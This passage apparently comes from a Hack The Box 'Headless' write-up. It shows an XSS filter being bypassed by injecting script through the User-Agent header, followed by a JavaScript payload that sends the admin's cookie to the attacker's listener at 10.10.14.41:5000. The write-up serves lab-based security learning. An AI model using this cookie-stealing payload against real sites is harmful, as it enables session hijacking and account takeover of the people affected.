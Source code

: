 We see that our XSS attempt on the message parameter gets rejected. We see this `Hacking Attempt Dectected` screen.

Let's try injecting in the user-agent header

```html
User-Agent: <script>alert(1)</script>
```

![Reflected XSS](/assets/images/HTB%20-%20Headless/Reflectd%20XSs.png)

So the User-Agent header is vulnerable to XSS

Judging by the message `has been sent to the administrators for investigation` & the fact that we confirmed XSS on the user-agent header. We may be able to try a stored XSS attacker on the user-agent header, and trigger the alert in hopes to steal the admins cookie

```javascript
<script>var i=new Image(); i.src="http://10.10.14.41:5000/?cookie="+btoa(document.cookie);
</script
```

This snippet of JavaScript will effectively send the user's cookie to our python web sever by embedding them in the URL of a newly created image object
